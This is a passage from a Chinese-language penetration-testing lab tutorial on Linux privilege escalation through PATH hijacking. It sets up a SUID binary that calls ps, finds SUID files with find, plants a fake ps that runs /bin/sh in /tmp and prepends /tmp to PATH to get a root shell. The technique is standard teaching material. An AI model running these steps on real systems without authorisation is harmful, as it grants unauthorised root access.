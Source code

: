 Ubuntu LAB SET_UP

目前，我们位于/home/raj目录，我们将在其中创建一个名为/script的新目录。现在在脚本目录下，我们将编写一个小型的c程序来调用系统二进制文件的函数。

```
pwd
mkdir script
cd /script
nano demo.c
```

[![](https://p1.ssl.qhimg.com/t01f98795825ff2ed59.png)](https://p1.ssl.qhimg.com/t01f98795825ff2ed59.png)

正如你可以在我们的demo.c文件中看到的，我们正在调用ps命令，它是系统二进制文件。

[![](https://p1.ssl.qhimg.com/t01c2bc30af8cab542e.png)](https://p1.ssl.qhimg.com/t01c2bc30af8cab542e.png)

然后使用gcc编译demo.c文件，并将编译文件提升到SUID权限。

```
ls
gcc demo.c -o shell
chmod u+s shell
ls -la shell
```

[![](https://p3.ssl.qhimg.com/t01965fc89ca7a43f17.png)](https://p3.ssl.qhimg.com/t01965fc89ca7a43f17.png)

### <a class="reference-link" name="%E6%B8%97%E9%80%8F%E5%8F%97%E5%AE%B3%E8%80%85%E7%9A%84VM%E6%9C%BA%E5%99%A8"></a>渗透受害者的VM机器

首先，你需要登陆到目标系统，然后进入提权阶段。假设您通过ssh成功登录到受害者的机器。然后在find命令的帮助下不浪费时间的搜索具有SUID或4000权限的文件。

```
find / -perm -u=s -type f 2&gt;/dev/null
```

因此，借助上述命令，攻击者可以枚举任何可执行文件，这里我们还可以发现具有suid权限的/home/raj/script/shell。<br>[![](https://p5.ssl.qhimg.com/t019b053def58725831.png)](https://p5.ssl.qhimg.com/t019b053def58725831.png)

然后我们进入/home/raj/script并看到一个可执行文件”shell”。所以我们运行这个文件，在这里它看起来像文件shell试图运行ps，这是一个真正的在/bin中的文件可以查看进程状态。

```
ls
./shell
```

[![](https://p0.ssl.qhimg.com/t019cdb5cc18e215a03.png)](https://p0.ssl.qhimg.com/t019cdb5cc18e215a03.png)

### <a class="reference-link" name="echo%20%E5%91%BD%E4%BB%A4"></a>echo 命令

```
cd /tmp
echo "/bin/sh" &gt; ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
```
